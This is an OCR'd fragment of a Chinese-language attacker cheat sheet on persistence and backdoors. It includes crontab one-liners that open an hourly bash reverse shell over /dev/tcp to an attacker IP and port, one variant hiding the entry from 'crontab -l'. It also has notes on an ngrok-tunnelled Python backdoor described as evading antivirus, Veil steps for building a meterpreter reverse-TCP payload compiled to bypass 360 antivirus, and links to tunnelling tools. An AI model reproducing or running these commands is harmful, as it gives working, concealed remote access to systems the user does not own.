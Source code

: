 > > (crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -
>
> 猥琐版
>
> > (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
>
> 详细介绍
>
> > https://github.com/tom0li/security_circle/blob/master/15288418585142.md
>
> ### ngrok-backdoor
>
> Grok-backdoor 是一个简单的基于 python 的后门，它使用 Ngrok 隧道进行通信。Ngrok 后门可以使用 Pyinstaller 生成 windows，linux 和 mac 二进制文件。
>
> 虽然免杀，但如果开 win 防火墙会提示，生成后门时会询问是否捆绑 ngrok，选择 no 时，在被攻击机执行时需联网下载 ngrok，运行后，telnet 连接即可.
>
> > https://github.com/deepzec/Grok-backdoor
>
> ### veil
>
> 这里，安装问题有点多，我用 kali-2018-32 安装成功，先安装下列依赖，后按照官方即可。
>
> > apt-get install libncurses5*
> >
> > apt-get install libavutil55*
> >
> > apt-get install gcc-mingw-w64*
> >
> > apt-get install wine32
>
> 生成shell
>
> > ./Veil.py
> >
> > use 1
> >
> > use c/meterpreter/rev_tcp 
>
> 在 win 用 mingw 下 gcc 编译 bypass 360
>
> > gcc -o v.exe v.c -lws2_32 
>
> 使用之前生成的 veil.rc
>
> > msfconsole -r veil.rc
>
> 一句话开启 http 服务，虚拟机里开启，在外访问虚拟机 ip 即可下载虚拟机文件：
>
> > ```
> > python -m SimpleHTTPServer 80
> > ```
>
> ### ew
>
> tools: 
>
> > http://rootkiter.com/EarthWorm
>
> 新版 tools： 
>
> > http://rootkiter.com/Termite/